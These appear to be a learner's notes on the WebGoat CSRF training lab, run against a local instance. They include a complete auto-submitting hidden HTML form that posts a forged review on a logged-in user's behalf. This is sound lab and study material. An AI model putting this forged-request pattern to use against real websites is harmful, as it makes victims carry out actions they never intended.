 ### CSRF Exercise
submit query goes to = 'http://127.0.0.1:8080/WebGoat/csrf/basic-get-flag?csrf=false&submit=Submit+Query'
on setting csrf=true we get flag
### Post a review on someone else’s behalf
just make an html page with form
```
<body onload="document.getElementById('csrf-review').submit();">
	<form accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://127.0.0.1:8080/WebGoat/csrf/review">
       <input type="hidden" class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text" value="bad review">
       <input type="hidden" class="form-control" id="reviewStars" name="stars" type="text" value=3>
       <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
  </form>
</body>
```
